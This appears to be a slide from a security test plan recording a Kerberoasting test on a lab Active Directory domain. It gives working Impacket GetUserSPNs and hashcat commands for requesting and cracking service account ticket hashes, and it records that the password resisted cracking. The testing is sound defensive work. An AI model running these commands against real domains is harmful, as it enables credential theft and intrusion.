

# Test Case 9: Active Directory Kerberoasting
Kerberoasting Objective: Post-exploitation attack where service account password is cracked with normal user credentials.
Ensure that Service Account has SPN set (Service Principal Name).
From Kali, run Impacket.
Run exploit `GetUserSPNs`.
impacket-GetUserSPNs -dc-ip 192.168.159.137 cspj.com/Victim -request
Where `Victim` is a normal user account.
Get hash as output.
Ensure that Hashcat cannot crack the hash.
hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --force --show
Expected Outcome: Hashed password of service account cannot be cracked.
Actual Outcome: Hashed password of service account cannot be cracked.
Result: Pass
64